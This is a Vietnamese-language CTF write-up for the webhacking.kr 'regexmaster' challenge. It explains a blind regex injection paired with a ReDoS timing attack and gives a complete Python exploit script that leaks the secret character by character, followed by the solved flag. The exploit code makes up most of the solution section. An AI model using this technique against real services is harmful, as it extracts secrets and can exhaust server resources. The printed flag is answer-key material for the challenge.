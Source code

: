```yaml
---
title: Blind regex injection
description: From webhacking.kr
author: to^
date: 2022-04-02 2:39:00 +0700
categories: [WecSec, CTF]
tags: [timing attack, blind attack]     # TAG names should always be lowercase
img_path: /assets/img/
image:
 src: blind_re_inject/webhackingkr_logo.png
 alt: webhackingkr logo
 w: 1000
 h: 200
---
```


## _Link challenge_
http://regexmaster.webhacking.kr

## _Source code_
![source_code](blind_re_inject/source_code.png)
_source code_

## _Phân tích_
Ở bài này source code rất đơn giản, chỉ kiểm tra xem biến flag có chứa chuỗi `parttern` (nhận từ GET request) hay không mà không hề xuất ra kết quả hay output nào khác.
Sau một hồi suy nghĩ thì mình quyết định thử khai thác bằng `blind regex injection` + `timing attack`
Để hiểu chi tiết hơn về kĩ thuật này các bạn có thể [đây](https://diary.shift-js.info/blind-regular-expression-injection/)

## _Khai thác_
```py
import requests
import sys
import time
import random
import string
import re

# constants
THRESHOLD = 1
url = 'http://regexmaster.webhacking.kr/?pattern='
# predicates


def length_is(n):
    return ".{" + str(n) + "}$"


def nth_char_is(n, c):
    if c == '/':
        return ".{" + str(n-1) + "}" + '\/' + ".*$"
    if c == '\\':
        return ".{" + str(n-1) + "}" + '\\\\' + ".*$"
    return ".{" + str(n-1) + "}" + re.escape(c) + ".*$"

# utilities


def redos_if(regexp, salt):
    return "^(?={})(((((.*)*)*)*)*)*{}".format(regexp, salt)


def get_request_duration(payload):
    # print(payload)
    try:
        r = requests.get(url+payload)
        duration = r.elapsed.total_seconds()
    except:
        duration = -1
        exit(1)
    # print(duration)
    return duration


def prop_holds(prop, salt):
    return get_request_duration(redos_if(prop, salt)) > THRESHOLD


def generate_salt():
    return ''.join([random.choice(string.ascii_letters) for i in range(10)])


# exploit
if __name__ == '__main__':
    # generating salt
    salt = generate_salt()
    while not prop_holds('.*', salt):
        salt = generate_salt()
    print("[+] salt: {}".format(salt))

    # leak length
    upper_bound = 100
    secret_length = 0
    for i in range(0, upper_bound):
        if prop_holds(length_is(i), salt):
            secret_length = i
            break
    print("[+] length: {}".format(secret_length))

    flag = "FLAG{"
    for i in range(5, secret_length):
        stop = 0
        for c in range(32, 128):
            if prop_holds(nth_char_is(i+1, chr(c)), salt):
                flag += chr(c)
                print("[*] {}".format(flag))
                stop = 1
                break
    print("[+] Flag: {}".format(flag))  
```

```
hahaa

```
**flag: FLAG{im_r/e/g/e/x_master//_//}**

